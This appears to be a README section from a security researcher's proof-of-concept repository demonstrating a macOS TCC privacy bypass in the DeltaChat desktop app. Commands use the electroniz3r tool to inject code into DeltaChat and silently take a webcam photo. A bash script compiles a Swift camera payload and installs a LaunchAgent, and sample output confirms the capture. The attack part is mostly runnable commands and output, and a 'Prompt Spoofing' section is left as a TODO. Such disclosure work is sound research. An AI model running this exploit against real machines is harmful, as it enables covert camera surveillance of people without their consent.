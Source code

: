 # Exploitation


### Automated 

>**Note:** When running this proof-of-concept, the Terminal app does not need a prompt for camera access. This is because the camera permission is granted to DeltaChat, and the injected code inherits those permissions, effectively bypassing macOS TCC restrictions.

Run the following from Terminal using [electroniz3r](https://github.com/r3ggi/electroniz3r)

```sh
electroniz3r inject /Applications/DeltaChat.app/ --predefined-script takeSelfie
```

Sample output:
```sh
/Applications/DeltaChat.app/ started the debug WebSocket server
The webSocketDebuggerUrl is: ws://127.0.0.1:13337/56264727-4473-4393-b712-7e24c65a1c71
Check /tmp/selfie.jpg
```

Confirm the result by running:
```sh
open /tmp/selfie.jpg
```

<img width="1502" height="470" alt="poc-delta" src="https://github.com/user-attachments/assets/6bcc6604-8707-4924-89c8-2d8985aab39e" />

A picture is taken using the system webcam, without Terminal having any camera access this demonstrates a successful TCC bypass.

### Manual 

Clone the repository and then execute the bash script, the bash script autoexploits the TCC Bypass, creating a selfie without triggering a new TCC prompt.
```sh
bash deltachat_camera_bypass.sh
# or
chmod +x deltachat_camera_bypass.sh && ./deltachat_camera_bypass.sh
```

Example output:
```sh
kunpeeks@MacBook-Pro-van-Kun 1 % ./deltachat_camera_bypass.sh
[*] Step 1: Write Swift camera payload to /tmp/selfie_payload.swift
[*] Step 2: Compile Swift payload to /Users/kunpeeks/Desktop/selfie
[*] Step 3: Create LaunchAgent plist at /Users/kunpeeks/Library/LaunchAgents/com.deltachat.tcc.camera.plist
[*] Step 4: Load LaunchAgent and trigger DeltaChat
[*] Waiting 5 seconds for selfie to complete...
[*] Checking selfie result:
[+] Selfie saved at /tmp/selfie.jpg
```


### Prompt Spoofing

TODO: xxx

